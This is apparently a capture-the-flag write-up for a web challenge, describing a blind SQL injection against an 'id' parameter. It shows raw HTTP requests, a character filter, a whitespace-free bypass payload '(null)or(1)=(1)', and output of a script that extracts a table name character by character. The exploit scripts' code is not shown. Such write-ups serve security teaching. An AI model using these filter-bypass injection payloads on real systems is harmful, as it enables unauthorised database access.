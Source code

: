 # WEB200
## Description
San Tzu Said : 

"Einstein would have been a good DBA, too ... 
What a DBA team : Shakespeare and Einstein ...
But who they will name tables ? that'is the question"

## Solution
According to the challenge description, the flag is the name of a table (starting with FLAG_).
So We need to exploit an SQL injection to resolve this challenge.

We start by injecting a simple quote in the "id" parametr using the following HTTP request :

```
GET /index.php?id=%27 HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:20.0) Gecko/20100101 Firefox/20.0 Iceweasel/20.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

But it seems that there is a filtering mechanism which block/detect malicious characters:

```
HTTP/1.1 200 OK
Date: Sat, 30 May 2015 22:45:40 GMT
Server: Apache
Vary: Accept-Encoding
Content-Length: 17
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html

Attack Detected !
```

First, we need to determine what pattern is used by the target in order to bypass it later. For example, we can try to inject all possible ASCII code :

```
tmr@desktop:~$ python pattern_detector.py
[+]   is filtred  //whitespace
[+] " is filtred  //quotes
[+] ' is filtred
[+] / is filtred  // slashe
[+] \ is filtred  // anti-slashe
```

As you can see above whitespace slashes and quotes are all caught by the target. But MySQL offers the possibility to avoid whitespaces by using parenthesis to separate SQL keywords.

For example, we can inject a boolean expression as follow :


```
GET /index.php?id=(null)or(1)=(1) HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:20.0) Gecko/20100101 Iceweasel
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

We get a valid response from the server (the profile page is displayed correctly) :


```
HTTP/1.1 200 OK
Date: Sat, 30 May 2015 23:23:37 GMT
Server: Apache
Vary: Accept-Encoding
Content-Length: 3827
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html


<!doctype html>
<html lang="en-US">
<head>
  <meta charset="utf-8">
  <meta http-equiv="Content-Type" content="text/html">
  <title>User Profile s...
```

Then, you can craft your own exploit to guess the table name :


```
tmr@desktop:~$ python exploit.py 
[+] Blind SQL Injection Exploit Using %LIKE% Technique 
[+] New Guessed Char : E
FLAG_E
[+] New Guessed Char : N
FLAG_EN
[+] New Guessed Char : T
FLAG_ENT
[+] New Guessed Char : A
FLAG_ENTA
[+] New Guessed Char : Y
FLAG_ENTAY
[+] New Guessed Char : A
FLAG_ENTAYA
[+] New Guessed Char : _
FLAG_ENTAYA_
[+] New Guessed Char : M
FLAG_ENTAYA_M
[+] New Guessed Char : 3
FLAG_ENTAYA_M3
[+] New Guessed Char : A
FLAG_ENTAYA_M3A
[+] New Guessed Char : L
FLAG_ENTAYA_M3AL
[+] New Guessed Char : E
FLAG_ENTAYA_M3ALE
[+] New Guessed Char : M
FLAG_ENTAYA_M3ALEM
```

That's it !

